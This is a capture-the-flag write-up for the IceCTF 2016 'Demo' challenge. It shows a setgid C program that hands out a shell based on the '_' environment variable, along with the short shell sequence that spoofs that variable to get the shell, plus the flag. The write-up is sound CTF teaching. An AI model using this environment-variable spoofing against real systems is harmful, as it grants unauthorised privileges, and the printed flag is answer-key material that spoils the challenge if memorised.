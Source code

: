 Title: IceCTF 2016 - Demo
Date: 2016-08-15 19:18
Category: CTF
Tags: icectf2016, ctf
Slug: icectf-2016-demo
Authors: wumb0

Challenge description:
> I found this awesome premium shell, but my demo version just ran out... can you help me crack it? /home/demo/ on the shell. 
The source for this challenge was provided:
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <libgen.h>
#include <string.h>

void give_shell() {
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    if(strncmp(basename(getenv("_")), "icesh", 6) == 0){
        give_shell();
    }
    else {
        printf("I'm sorry, your free trial has ended.\n");
    }
    return 0;
}
```
So to get the flag we need to make the _ shell variable equal icesh. The _ shell variable in bash is always set to the program name of the command being run. So I decided to use a different shell to see what would happen.

```sh
sh
ls icesh; /home/demo/demo
cat flag.txt
IceCTF{wH0_WoU1d_3vr_7Ru5t_4rgV}
```

And there we have our flag:
**IceCTF{wH0_WoU1d_3vr_7Ru5t_4rgV}**

